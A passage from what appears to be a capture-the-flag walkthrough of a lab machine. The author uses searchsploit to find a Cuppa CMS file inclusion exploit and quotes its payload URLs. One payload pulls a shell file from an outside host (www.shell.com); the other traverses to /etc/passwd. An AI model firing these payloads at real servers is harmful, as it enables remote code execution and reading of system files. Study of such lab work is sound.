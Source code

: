 ![](/assets/images/bravery/screenshot-5.png)

Then we search in searchsploit for vulnerabilities in this CMS, and I find a possible Local/Remote File Inclusion vulnerability for Cuppa CMS.

``` bash
root@kali:~$ searchsploit cuppa
------------------------------------------------------------------------------------------ ----------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ----------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                           | php/webapps/25971.txt
------------------------------------------------------------------------------------------ ----------------------------
```
I transfer a copy of this exploit to my current working directory, and see that it can be exploited for local and remote file inclusion.
``` bash
root@kali:~$ searchsploit -m php/webapps/25971.txt
root@kali:~$ cat 25971.txt
...
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
...
```
